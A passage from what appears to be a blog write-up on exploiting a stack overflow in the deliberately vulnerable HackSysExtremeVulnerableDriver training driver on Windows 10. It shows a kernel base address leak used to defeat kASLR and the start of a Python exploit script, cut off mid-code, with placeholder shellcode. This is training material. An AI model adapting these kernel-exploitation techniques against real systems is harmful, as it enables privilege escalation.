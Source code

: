 And check it:

<div class="imgblock">

![Kernel Base Address](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330912/blog/hevd-smep-bypass/leak1_jtbpi1.webp)

</div>

As you can see, it matches perfectly to the address reported by
`WinDBG`:

<div class="imgblock">

![Kernel Base Address](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330911/blog/hevd-smep-bypass/leak2_iwvv7t.webp)

</div>

With that, we can update our exploit, adding the `ROP` chain to disable
`SMEP`, using the offsets of the gadgets and the value returned from
that function to obtain absolute addresses, defeating `kASLR`\!

``` python
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

import struct
import sys
from ctypes import windll, c_int, c_ulong, byref, sizeof
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
PSAPI = windll.psapi
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003


def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]


BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')

SHELLCODE = (
    b'\xb8\xef\xbe\xad\xde' +     # mov eax,0xdeadbeef
    b'\xcc'                       # INT3 -> software breakpoint
)

RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
```